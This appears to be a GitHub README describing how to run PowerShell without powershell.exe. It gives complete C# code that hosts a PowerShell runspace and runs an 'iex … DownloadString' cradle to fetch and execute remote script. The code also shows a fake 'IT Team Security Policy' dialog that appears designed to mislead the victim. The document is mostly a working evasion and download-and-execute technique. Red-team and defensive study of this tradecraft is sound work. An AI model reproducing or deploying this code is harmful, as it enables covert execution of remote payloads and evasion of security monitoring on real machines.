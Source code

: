 ### Powershell Attack Without Powershell.exe
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.

![Image of Yaktocat](https://raw.githubusercontent.com/NyaMeeEain/Infrastructure-Assessment/master/Images/PS_WT.PNG)

```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Windows.Forms;

public class Program
{
    public static void Main()
    {

        Execution.MeMe();
        MessageBox.Show("Loading Security Services...", "IT Team Security Policy", MessageBoxButtons.YesNo, MessageBoxIcon.Question);
    }
    public class Execution
    {
        public static void MeMe()
        {
            RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
            Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
            rspace.Open();
            Pipeline pipeline = rspace.CreatePipeline();
            pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('https://www.google.com/robots.txt'))");
            pipeline.Invoke();
        }
    }
}

```

